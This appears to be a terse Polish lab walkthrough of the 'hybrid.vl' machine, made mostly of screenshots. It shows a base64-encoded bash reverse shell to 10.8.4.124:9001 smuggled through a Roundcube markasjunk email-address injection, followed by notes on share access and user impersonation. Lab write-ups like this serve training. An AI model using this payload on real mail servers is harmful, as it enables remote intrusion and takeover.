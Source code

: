 ![{00951F59-0D33-4BB1-AB09-85A0E7765859}](https://github.com/user-attachments/assets/df640b81-f75e-4004-913e-fa22eecf7b17)

jako admin

![{EE0461A6-9F0F-403C-A120-0E32C46DFED8}](https://github.com/user-attachments/assets/3931c5f3-3727-458a-83b4-dd9776ab3393)


jako peter

![{4CD72901-5B2B-4D1C-8A4D-5A14319ED191}](https://github.com/user-attachments/assets/966d5489-d493-4eae-b19c-21c8b56a285d)

w sumie.. nic więcej

`https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/`

![{F1C8EBA2-D11C-468D-9E59-7CC967B9B99D}](https://github.com/user-attachments/assets/6f1aeb45-6f7c-4bcd-b1e4-61f4fb2f38ad)

```
echo "bash -c '/bin/bash -i >& /dev/tcp/10.8.4.124/9001 0>&1'" | base64
```

```
&echo${IFS}YmFzaCAtYyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguNC4xMjQvOTAwMSAwPiYxJwo=|base64${IFS}-d|bash&@hybrid.vl
```

jakikolwiek mail do `junk`

![{EFD7636F-8158-463A-948D-9EA976623E52}](https://github.com/user-attachments/assets/fc94d885-2233-42be-8b52-07f93f4df703)

![{020A3500-15E1-4C94-9960-ECC6847E4694}](https://github.com/user-attachments/assets/14d9a9db-a4aa-4166-91e8-430cd5db10cd)

![{1DCB7A0E-F911-4F61-995D-9868AEEDC120}](https://github.com/user-attachments/assets/04ddb1eb-ede5-48c5-83d8-8ba2e90e0053)

- credsy `peter.turner@hybrid.vl` nie działają :/

![{FFBCEE09-BEB5-45ED-8953-156EC7F49C37}](https://github.com/user-attachments/assets/a070cee9-e148-4ea4-9a5e-689498d33786)

![{19E02589-3DDA-4544-82C5-984D3A826069}](https://github.com/user-attachments/assets/08d5320e-4f96-4002-bf1e-58dbde0f1a96)

hmmmm. Może coś z tym sharem się uda

![{3E44E07D-892E-40DC-BEA9-D10C1E07F43C}](https://github.com/user-attachments/assets/91198b8b-82cf-4070-87f8-37111d8cd85e)

![{12D6FF8B-8DEE-4F30-BDC4-F1248B10562B}](https://github.com/user-attachments/assets/f770141a-79ce-459a-8887-b4a515e8211b)

nie da się jako root, ale pewnie da się jako ten peter. Tylko znaleźć jego uid

![{F9DD5D0C-8628-4675-8F2E-6FBF41AE03FC}](https://github.com/user-attachments/assets/326a1e29-946a-4a91-a31d-02c484e490ef)

![{AC7651F0-E0F9-4A0F-A3D0-391D09CD058C}](https://github.com/user-attachments/assets/ae851849-3725-43dd-b129-d9ad81e3f9b6)

ajajaja trzeba zmienić.

![{FB1DAE7C-CAE9-47E9-A70E-86974EA0B70F}](https://github.com/user-attachments/assets/edf10b25-713c-4b8f-ad1c-19bc22a7ff54)
